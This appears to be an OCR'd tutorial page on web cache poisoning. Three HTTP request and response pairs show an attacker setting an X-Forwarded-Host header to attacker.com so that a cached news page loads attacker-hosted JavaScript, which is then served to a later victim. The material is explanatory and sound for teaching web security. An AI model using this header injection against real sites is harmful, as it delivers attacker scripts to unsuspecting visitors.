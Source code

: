 



### Sample scenario

```html
GET **/news/show.php?id=1** HTTP/1.1
Host: **example.com**
Connection: close

HTTP/1.1 200 OK
Content-Type: text/html; charset=utf-8
**Cache-Control: max-age=3000
Age: 0
X-Cache: miss**
Connection: close
Content-Length: 10941

...
<script src='//site.com/static/js/news.js'></script>
...
```

Attack

```html
GET **/news/show.php?id=2** HTTP/1.1
Host: **example.com
X-Forwarded-Host: attacker.com**
Connection: close

HTTP/1.1 200 OK
Content-Type: text/html; charset=utf-8
**Cache-Control: max-age=3000
Age: 0
X-Cache: miss**
Connection: close
Content-Length: 10941

...
<script src='//**attacker.com**/static/js/news.js'></script>
...
```

Victim

```html
GET **/news/show.php?id=2** HTTP/1.1
Host: **example.com**
Connection: close

HTTP/1.1 200 OK
Content-Type: text/html; charset=utf-8
**Cache-Control: max-age=3000
Age: 157
X-Cache: hit**
Connection: close
Content-Length: 10941

...
<script src='//**attacker.com**/static/js/news.js'></script>
...
```
